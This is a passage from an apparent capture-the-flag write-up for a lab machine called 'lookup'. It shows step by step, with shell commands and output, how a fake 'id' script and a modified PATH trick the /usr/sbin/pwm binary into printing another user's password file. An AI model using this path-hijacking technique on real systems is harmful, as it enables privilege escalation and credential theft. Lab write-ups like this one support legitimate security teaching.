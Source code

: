 ### Path Hijacking

The problem with the binary is that it runs the `id` command with a relative path, which allows us to hijack it by manipulating the `PATH` environment variable.

When we run a program without an absolute path, Linux tries to find the path to the executable by utilizing the value of the `PATH` environment variable.

We can see the value of the `PATH` variable as follows:

```console
www-data@lookup:/var/www$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So, for example, when we run the `id` command, it starts from the left and checks each directory in the `PATH` variable for the `id` executable. If it finds it in a directory, it runs that executable.

The thing is, we are able to modify the value of the `PATH` variable. What we can do is create an executable named `id`, in this case, a bash script that outputs `uid=33(think) gid=33(www-data) groups=33(www-data)` in `/tmp`, and make it executable by everyone as follows:

```console
www-data@lookup:/tmp$ echo -e '#!/bin/bash\necho "uid=33(think) gid=33(www-data) groups=33(www-data)"' > /tmp/id
www-data@lookup:/tmp$ chmod 777 /tmp/id
```
{: .wrap }

Next, we can modify the `PATH` variable to put `/tmp` first, before any other directory, as such:

```console
www-data@lookup:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@lookup:/tmp$ export PATH=/tmp:$PATH
www-data@lookup:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

As we can see, now when we run the `id` command, it executes `/tmp/id` instead of `/usr/bin/id`, and we get our modified output:

```console
www-data@lookup:/tmp$ which id
/tmp/id
www-data@lookup:/tmp$ id
uid=33(think) gid=33(www-data) groups=33(www-data)
```

Now, we can run the `/usr/sbin/pwm` binary, and due to the modified `PATH` variable, it will also run `/tmp/id`, get `uid=33(think) gid=33(www-data) groups=33(www-data)` as the output of the `id` command, extract the username as `think`, and then print the contents of the `/home/think/.passwords` file as follows:

```console
www-data@lookup:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
...
jose.2856171
```
